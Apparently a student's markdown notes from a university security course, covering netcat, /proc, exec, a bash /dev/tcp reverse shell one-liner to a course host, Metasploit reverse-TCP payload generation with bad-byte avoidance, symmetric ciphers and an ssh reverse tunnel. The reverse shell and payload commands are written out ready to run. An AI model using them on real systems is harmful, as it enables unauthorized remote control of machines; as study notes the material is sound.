 #9-14
Get around the lack of ```-e``` in netcat by using a **named pipe**

###/proc
It's an entirely simulated directory of unreal files to give information on current processes
###exec
As a linux command, it replaces the shell with whatever follows exec:

Dangerous Example: ```exec ls``` will ls and then kill itself upon completion. Boom goes your shell

###Bash Sockets (spawning a reverse shell entirely with bash)

    exec 5<>/dev/tcp/moxie.cs.colorado.edu/8888
    cat <&5 | while read line; do $line 2>&5 >&5; done

###Metasploit

    msf console
    use payload/linux/x86/shell/ <tab>

    use payload/linux/x86/shell/shell_reverse_tcp
    set LHOST 128.138.___.___
    set LPORT 8888
    generate -t c

    //or
    generate -t python

    //or if victim does not allow byte x31
    generate -b 31

###Symettric key cryptography
Alice and Bob (A & B) have a key and nobody else does
<br>Examples:
* AES-CBC
* 3DES-EDE-CBC
* RC4

###ssh reverse shell

    ssh -R 22:localhost:9001 dabo6422@moxie.cs.colorado.edu

